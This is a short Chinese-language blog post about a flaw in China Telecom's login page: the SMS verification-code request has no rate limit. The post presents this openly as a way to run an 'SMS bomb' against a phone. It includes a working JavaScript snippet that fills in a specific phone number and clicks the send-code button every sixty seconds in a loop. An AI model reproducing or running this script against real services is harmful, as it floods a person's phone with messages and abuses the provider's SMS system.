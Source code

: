 ```yaml
---
title: js定时自动提交
tags: JavaScript
categories: 安全
date: 2015-01-19 00:27:15
---
```


中国电信登录的时候可以选择，采用随机密码登录，也就是给你手机发送一条验证码，但是由于该提交在验证码之前，且没有次数限制，所以在一定程度上可以造成短信炸弹，利用起来也很简单，只需要基本的js代码即可.

```js
function ss() {
    // location.reload()
    loginName.value = '18949592282';//phone number
    document.getElementById('s12').click(); 
    document.getElementById('passWord_reset').click(); 
    setTimeout("ss()", 60000); 
}
ss();
```